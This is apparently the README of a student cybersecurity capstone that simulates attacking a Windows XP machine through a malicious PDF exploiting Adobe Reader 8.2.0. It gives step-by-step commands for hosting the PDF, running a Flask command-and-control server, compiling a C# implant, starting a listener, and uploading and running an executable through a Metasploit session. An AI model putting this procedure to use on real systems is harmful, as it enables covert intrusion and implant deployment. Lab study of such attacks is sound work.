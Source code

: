 # CyberEffects_IPDIMG
CyberEffects Capstone - Intellectual Property Defense via Illegal Methods Group (IPDIMG)

This is a simulation of a legally questionable way of determining whether intellectual property was not properly deleted after employment termination. Our capstone utilizes a vulnerability in Adobe Reader ver. 8.2.0 where payloads can be embedded into a .pdf file, and executed once opened in the vulnerable PDF reader. With this initial

## Vulnerable Target

Windows XP OS with Adobe Reader ver. 8.2.0 installed

Link to the vulnerable Adobe Reader ver. 8.2.0 [here](http://www.oldversion.com/windows/acrobat-reader-8-2-0)

Free Windows XP .iso file [here](https://eprebys.faculty.ucdavis.edu/2020/04/08/installing-windows-xp-in-virtualbox-or-other-vm/#:~:text=The%20product%20key%20is%20now,Mac%20can%20be%20found%20here.)

## Setting up Apache2 server to host malicious PDF

1. Install apache2

2. Copy the index.html to the '/var/www/html' directory

3. Run 'sudo systemctl start apache2' to start the server

4. File can be downloaded at http://***(host network IP)***:80

          Use 'ip addr show' and locate the host network IP

## Setting up vsftpd for the Apache2 server file location

Follow the following videos in order

1. Set up vsftpd [here](https://youtu.be/1WVBC0KBOeE?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

2. Securing FTP server [here](https://youtu.be/N7hwrPiji3c?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

3. Upload to Apache2 server using FTP [here](https://youtu.be/Np_OUB4gvc4?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

## Setting up and running any of the shell scripts

          chmod +x <script name>

          ./<script name>

## General Steps

1. Begin by generating the malicious PDF and generate encrypted archive file by generating the exe of 'generate_malicious_pdf.sh'.
  
          chmod +x generate_malicious_pdf.sh
  
          ./generate_malicious_pdf.sh

2. Start flask server that is responsible for communicating with implants
          
          Make note of the IP and port that the flask server is running on so that the implants know where to communicate back to 
          
          Make changes to the 'srvip' variable in implant.cs with the srvip that the flask server uses

3. Build the implant.cs into an executable
          
          mcs implant.cs

4. Start listener by running the listener.sh script
  
          chmod +x listener.sh
          
          ./listener.sh

5. Download and open the malicious PDF on the target machine

6. Upload the upload_exe.rc file to the target machine via session
  
          sessions -i 1
  
          upload upload_exe.rc
  
7. Run the resource script in order to upload and run the executable
  
          resource upload_exe.rc
